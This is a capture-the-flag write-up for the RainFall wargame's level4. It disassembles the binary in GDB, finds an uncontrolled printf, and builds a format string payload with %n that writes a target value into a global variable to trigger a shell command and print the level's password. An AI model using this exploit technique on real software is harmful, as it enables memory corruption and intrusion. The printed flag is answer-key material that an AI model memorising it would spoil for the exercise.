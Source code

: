 # level4

## exploring the binary
```shell
level4@RainFall:~$ ./level4
phantom
phantom
level4@RainFall:~$ ./level4
society 42
society 42
```
Once again executable waits for standard input and then prints it out.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave
   0x080484b3 <+12>:	ret
End of assembler dump.
```
The main function calls <code>n()</code> upon execution.
```shell
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
```
We see a comparison of variable <code>0x8049810</code> against <code>$0x1025544</code>.
```shell
(gdb) x/m 0x8049810
0x8049810 <m>:	Undefined output format "m".
(gdb) print 0x1025544
$1 = 16930116
```
Similarly to <code>level4</code>, there is a variable <code>m</code> which we have to modify without having any direct access to it. We check for its existence:
``` shell
All defined variables:

Non-debugging symbols:
0x08048588  _fp_hw
0x0804858c  _IO_stdin_used
0x080486f8  __FRAME_END__
0x080496fc  __CTOR_LIST__
0x080496fc  __init_array_end
0x080496fc  __init_array_start
0x08049700  __CTOR_END__
0x08049704  __DTOR_LIST__
0x08049708  __DTOR_END__
0x0804970c  __JCR_END__
0x0804970c  __JCR_LIST__
0x08049710  _DYNAMIC
0x080497dc  _GLOBAL_OFFSET_TABLE_
0x080497fc  __data_start
0x080497fc  data_start
0x08049800  __dso_handle
0x08049804  stdin@@GLIBC_2.0
0x08049808  completed.6159
0x0804980c  dtor_idx.6161
0x08049810  m
```

Function <code>n</code> also invokes another pre-made function, <code>p()</code>, prompting us to conduct an inspection.
```shell
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave
   0x08048456 <+18>:	ret
End of assembler dump.
```
We opt to execute another <code>format string</code> attack.

## format string attack
We first determine which specific stack parameter is occupied by a string passed to <code>printf</code>.
``` shell
level4@RainFall:~$ python -c 'print "AAAA" + " %p" * 5' > /tmp/pattern4
level4@RainFall:~$ cat /tmp/pattern4 - | ./level4
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil)
level4@RainFall:~$ python -c 'print "AAAA" + " %p" * 10' > /tmp/pattern4
level4@RainFall:~$ cat /tmp/pattern4 - | ./level4
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0
level4@RainFall:~$ python -c 'print "AAAA" + " %p" * 15' > /tmp/pattern4
level4@RainFall:~$ cat /tmp/pattern4 - | ./level4
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070
```
We found that the string <code>AAAA</code> resides in the twelfth position. With our understanding of the format string's location in the stack, our next step is to craft a string 16930116 characters in length, embedding the address of the variable (<code>0x08049810</code>) crucial for printing the next password.

## exploit
``` shell
level4@RainFall:~$ python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d%12$n"' > /tmp/flag4
level4@RainFall:~$ cat /tmp/flag4 | ./level4
[...]
                                       -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
